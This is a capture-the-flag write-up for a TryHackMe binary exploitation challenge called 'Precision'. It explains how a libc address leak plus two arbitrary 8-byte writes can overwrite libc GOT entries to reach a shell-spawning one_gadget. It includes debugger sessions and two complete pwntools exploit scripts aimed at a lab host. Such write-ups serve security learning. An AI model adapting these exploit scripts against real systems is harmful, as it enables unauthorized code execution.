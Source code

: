 ```yaml
---
title: Precision
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

Given a binary `precision` and `libc.so.6` file.

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  void *ptr; // [rsp+8h] [rbp-8h]
  void *ptra; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("\nCoordinates: %p\n", stdout);
  ptr = (void *)getint();
  write(1, "\nFirst chance: ", 0xFuLL);
  fread(ptr, 8uLL, 1uLL, stdin);
  ptra = (void *)getint();
  write(1, "\nSecond chance: ", 0x10uLL);
  fread(ptra, 8uLL, 1uLL, stdin);
  perror("!");
  _exit(1337);
}
```

The `main` function is simple, it calls `setup` function and print the `stdout` address. Then it calls `getint` function to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `getint` function again to get the input and read 8 bytes from the `stdin` to the address of the input. Then it calls `perror` function and `_exit` function.

```c
unsigned __int64 getint()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+48h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  write(1, "\n>> ", 4uLL);
  fgets(s, 64, stdin);
  return strtoul(s, 0LL, 10);
}
```

The `getint` function is simple, it reads 64 bytes from the `stdin` and convert the input to the unsigned long integer. So we can abritrary write to the memory.

Setting breakpoint to the `main` function and to analyze the `GOT` address.

```sh
pwndbg> b *main
pwndbg> r
pwndbg> got -p ./libc.so.6
```

![alt text](image.png)

Set breakpoint to each `GOT` address and analyze the registers. After some finding i found we can use `__strlen_avx2` to replace the `GOT` address to call some address.

```sh
pwndbg> b *0x7ffff7f30960
Breakpoint 2 at 0x7ffff7f30960: file ../sysdeps/x86_64/multiarch/strlen-avx2.S, line 50.
pwndbg> c
```

![alt text](image-1.png)

So now we can use `__strlen_avx2` to call the one gadget.

```sh
$ one_gadget -l1 ./libc.so.6
```

```
0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

So, `RCX`, `R9`, `RSI` and `R12` is empty, we can make this to make `RDX` to be NULL.

```sh
$ ROPgadget --binary libc.so.6 | grep "mov rdx, r12"
...
0x0000000000176df7 : mov rdx, r12 ; sub rdx, rsi ; call 0x283e0
...
```

And it call `__mempcpy_avx_unaligned_erms` got address. So we can replace the `__strlen_avx2` GOT to the address of `mov rdx, r12` gadget to clear the `RDX` register. and use `__mempcpy_avx_unaligned_erms` to call the one gadget.

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.39.142', 9004)
# r = remote('127.0.0.1', 9004)
libc = ELF('./libc.so.6')

# gdb.attach(r, '''
#         c
#             ''')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

__strlen_avx2 = libc_base + (0x7ffff7fac098 - 0x7ffff7d93000)
__mempcpy_avx_unaligned_erms = libc_base + (0x7ffff7fac040 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(__strlen_avx2).encode())
r.send(p64(libc_base + 0x176df7))

r.sendlineafter(b'>> ', str(__mempcpy_avx_unaligned_erms).encode())
r.send(p64(libc_base + 0xebcf8))

r.interactive()
```

## Bonus

Another solution to call the one gadget without meet the constraints (only works on remote).

```py
from pwn import *

binary = './precision'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('10.10.39.142', 9004)
libc = ELF('./libc.so.6')

r.recvuntil(b'Coordinates: ')
leak = r.recvline().strip()
leak = int(leak, 16)
log.info(f'Leak: {hex(leak)}')
libc_base = leak - libc.symbols['_IO_2_1_stdout_']
log.info(f'Libc base: {hex(libc_base)}')

libc.address = libc_base

one_gadget = libc_base + 0x10DBCA
got = libc_base + (0x7ffff7fac0b8 - 0x7ffff7d93000)

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendlineafter(b'>> ', str(got).encode())
r.send(p64(one_gadget))

r.sendline(b'cat flag.txt') 

r.interactive()
```

## References

- [Code execution with a write primitive on last libc.](https://github.com/nobodyisnobody/docs/tree/6960bfb204f0cfe844d75809412b0f79313f105d/code.execution.on.last.libc)
- [code execution inferno](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno)
